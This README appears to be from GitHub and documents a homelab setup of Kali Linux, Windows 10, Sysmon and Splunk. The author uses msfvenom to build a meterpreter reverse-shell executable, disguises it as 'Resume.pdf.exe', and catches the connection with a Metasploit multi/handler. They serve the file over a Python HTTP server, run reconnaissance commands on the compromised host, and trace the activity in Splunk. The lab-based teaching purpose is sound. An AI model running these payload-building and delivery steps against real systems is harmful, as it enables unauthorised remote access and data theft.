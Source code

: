 # 💻🥼 Cybersecurity Operations Center Homelab

## Objective and Description
In the field of cybersecurity, we need an environment to test new tools and learn new techniques. The intention for this project is to build a cybersecurity homelab in order to execute malware and other exploits so that we can gain insights, observe telemtry/alerts, and learn about malicious indicators of compromise (IOCs). We opt to experiment in a virtual environment (preferably a sandbox) so that we dont cause unnecessary harm to a production or valuable environment. In this instance we will use virtual box. The tools we will be using will be a target Windows 10 host machine that has Sysmon and the Splunk SIEM downloaded and deployed. The other tool will be an attacker machine using Kali Linux. We will craft our own exploit and malware in Kali to send it to our target host. We will then switch to our target machine and execute the malware on there. This homelab fullfils two obejectives; a blue team and a red team objective. The defense tools on our target host help us observe telemetry and logs to see what charactersistics an exploit or attack might consist of in real time. On the other hand, the ethical hacking done on our attacker kali machine helps us understand how attackers craft malware, identify vulnerabillities, and compromise their targets. 

### Skills Learned
- Red Team: How to run and configure Kali Linux and tools within the system
- Blue Team: Configure and deploy Splunk Enterprise with Sysmon feeding it data
- Setup an internal network and statically assign IPs so that two hosts can establish connections
- Use commands like ipconfif, ifconfig, ping, and netstat. This helped with checking host IPs, checking whether a host can be pinged, and checking what connections are established on my machine
- Nmap to scan ports to see what their statuses are
- Metasploit to listen in with a multi handler
- Crafting malware with a payload using msfvenom tool
- Create a http server to host the malware on
- Identify telemtry via Splunk and apply curated searches and investigations to look deep into data

  
  

### Tools Used
- Vitualbox
- Windows 10
- Kali Linux
- Splunk Enterprise
- Sysmon
- Python3 -m
- Msfvenom
- Msfconsole
- Meterpreter Reverse Shell TCP
- Nmap
- Windows task manager
- Windows Command Prompt

## Steps
- Step 1: We first must start by making sure that the Splunk on our target host is configured to properly ingest data transferred from Windows Sysymon into an index created inside Splunk. This is done by editing the inputs.conf file to make sure sysmon is configured in the Splunk's inputs.conf file to be ingested. Then we paste this edited inputs.conf file into the local folder in Splunk and restart the service so that it is saved. This should be done first since we want to observe how the host reacts and what it alerts after the malware has been executed.
  
  <img src="https://i.imgur.com/rnv3QnG.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/>
- Step 2: After placing the inputs.conf file in the local folder of Splunk and restarting the process, we now have to create an index in Splunk Enterprise called " endpoint". This is because that is what is written in the inputs.conf file and it will know exactly where to dump the data within the Splunk application. We also need to download an add-on app in Splunk that helps us parse incoming Sysmon data.
  
  <img src="https://i.imgur.com/v5VKtfz.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/b6gPxTp.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>
- Step 3: On target Windows machine, we use the "ping" command on the command prompt followed by the IP address of the Kali machine to establish connectivity in the internal network we set up between the two machines. We can't do it the other way around because the Windows firewall rule blocks any incoming connections.
  
  <img src="https://i.imgur.com/ENcKJG1.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/> 
- Step 4: On the Kali attacker machine, we run "nmap" against the Windows target machines with the "-A" flag meaning scan all ports and the "Pn" flag meaning to skip pings. After nmap finished its scan on all ports, we see that port 3389 is open which is the port for Remote Desktop Protocol (RDP). This allows for remote connections to your host which is dangerous to have open in any production or enteprise environment.
  
 <img src="https://i.imgur.com/sxsqLmU.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/> 

- Step 5: Now its time to create our malware on our attacker Kali Linux machine. We use the "msfvenom" tool to build it. We start of by using a meterpreter reverse shell as our payload. To get a list of payloads; we use the "msfvenom -l payloads" command. We search through the list to find our meterpreter reverse shell payload and copy it to use fo later. Now we can compile the malware. The commad we use is as follows: msfvenom -p (add the copied payload here) lhost= (add the IP address of the attacker machine here) lport= (add the port for the meterpreter here which is 4444) -f (this flag is for the format the file we are creating is in which is exe) -o (this flag is for what you want to name your malware that the target will see; we will name it Resume.pdf.exe).
  
   <img src="https://i.imgur.com/6QlFvXu.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/NrDwruw.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>
- Step 6: Next, we need open up a handler that will listen to the 4444 port that we configured in our malware. We do this by open up metasploit by typing "msfconsole". We will us the multi handler by typing in "use exploit/multi/handler" and clicking enter. We will be in teh exploit itself. From here we check the options to see what we can configure. We change the what is in the "payload options" from the default payload to the payload that we used for our malware. We also change the "lhost" section to our attacker machine's IP address and make sure all of these changes are saved. After this, we start the handler with the "exploit" command. Now we are listening in and waiting until our target machine executes our malware.
  
  <img src="https://i.imgur.com/NfuX5p9.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/a9EjuJD.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>

-Step 7: We need to set up an HTTP server on our attacker Kali machine so that our target machine can download our malware. In this case we will use python to this in the same directory as our malware. We type "python3 -m http.server 9999" to create it and now our test machine should be able to access it and download our malware. Now we are done on Kali and must wait for our malware to be executed

<img src="https://i.imgur.com/YFRJXKS.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/> 

-Step 8: We hop back on our target Windows 10 machine and disable Windows Defender and anti virus. We head to our kali serviced web page that has the malware on it. We download the malware and run it. Now that the malware has been executed, we open up the command prompt with administrator privilages. We type in "netstat -anob" and we see an established connection to our Kali attacker machine. We also use the PID from that connection output and open it up on windows task manager to see that it is indeed the malware that was executed

<img src="https://i.imgur.com/OKCqc6N.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/y4eibW7.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/CvvQhNA.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/>

-Step 9: Jumping back to our Kali machine, it looks like we have a connection where we were listening in with our handler. Now we have control over the target machine. We now run a few commmands. We type in the "shell" command to establish a shell on our target machine. We also run the "net user", "net localgroup", and "ipconfig" commands to exfiltrate more information from the target machine. After this, we will check back on our Splunk SIEM to see what kind of telemetry has been generated.

<img src="https://i.imgur.com/im8iLwV.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/nxwJ7c5.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/0AF9kAv.png" height="30%" width="30%" alt="Cyber SOC Homelab Steps"/>


-Step 10: Back on our Splunk SIEM, we search for our "index=endpoint" but at the end of it we query the Kali attacker machine's IP address. It would like this "index=endpoint 192.168.20.11". We scroll down to discover that one destination port was targeted and it was the 3389 port for RDP. Some questions an analyst would ask are; "Should this machine be attempting to connect to RDP?, "What machine is this?", "Who does is belong to?", or "How is it able to listen into and scan my ports?". 

<img src="https://i.imgur.com/UmPMzkS.png" height="80%" width="80%" alt="Cyber SOC Homelab Steps"/>

Step 11: We can further dig deeper into other events that were logged by Splunk. This time we can search with the name of the malware at the end so; "index=endpoint Resume.pdf.exe. We have 13 events and 7 event codes generated. We delve deeper by investigating the first event code out of 7. By expanding this event, we can see that a parent process had spawned another process which ran a cmd.exe. We also see the process id 5428 which we could use to query our data to see what that command had done. Instead we opt with the process guid. We copy the process guid characters and paste it at the end of our "index=enpoint" instead using the malware name or another process id. This would looklike: "index=endpoint d542c381... ". This shows use exactly which commands the attacker used to exfiltrate data displayed in our Splunk.

 <img src="https://i.imgur.com/aP18Q4u.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/> <img src="https://i.imgur.com/W0wafAz.png" height="40%" width="40%" alt="Cyber SOC Homelab Steps"/>



